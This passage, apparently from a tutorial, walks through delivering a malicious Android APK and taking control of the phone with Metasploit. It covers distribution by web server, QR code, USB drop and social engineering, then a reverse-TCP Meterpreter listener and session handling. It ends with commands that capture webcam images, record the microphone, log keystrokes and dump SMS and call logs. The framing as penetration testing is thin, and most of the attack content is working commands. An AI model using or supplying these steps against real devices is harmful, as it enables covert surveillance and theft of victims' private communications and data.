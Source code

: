 ## 5. **Deploying the Malicious APK**

Once the payload is created, it must be delivered to the target device. Several techniques can be used:
1. **Hosting on a Web Server:** The attacker can host the APK on a simple HTTP server using Python.
```sh
python3 -m http.server 8080  # Start a server on port 8080
```
2. **QR Code Delivery:** Generating a QR code to distribute malicious URLs.
3. **USB Drop Attack:** Preloading the APK onto a USB device to be installed when connected.
4. **Social Engineering:** Attackers can disguise the malicious APK as a legitimate app and trick users into installing it.

## 6. **Exploiting the Target Using Metasploit Framework**

The Metasploit Framework is an essential tool for penetration testers. It provides a multi/handler module that listens for incoming connections from the compromised device.

### **Starting Metasploit Console**
```sh
msfconsole
```

### **Setting Up a Multi/Handler Listener**
```sh
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT <Your_Port>
exploit
```
- This prepares the attacker's machine to receive a reverse shell from the infected device.

## 7. **Gaining Remote Control Over the Target Device**

Once the APK is installed and executed on the target device, the attacker gains a Meterpreter session. This provides a powerful command interface for remote control.

### **Managing Active Sessions**
```sh
sessions  # List active sessions
sessions -i <Session_ID>  # Interact with a session
```
- Attackers can interact with a compromised device, execute commands, and exfiltrate data.

## 8. **Gathering Sensitive Information**

The Meterpreter shell allows attackers to extract sensitive data from the target device.

### **Information Gathering Commands**
```sh
sysinfo  # Get system information
webcam_list  # List available cameras
webcam_snap  # Capture an image using the device camera
dump_calllog  # Extract call logs
dump_sms  # Extract SMS messages
record_mic 10  # Record 10 seconds of audio from the microphone
keyscan_start  # Start keylogging
```
- These commands enable extensive data exfiltration, providing attackers with access to personal and confidential information.
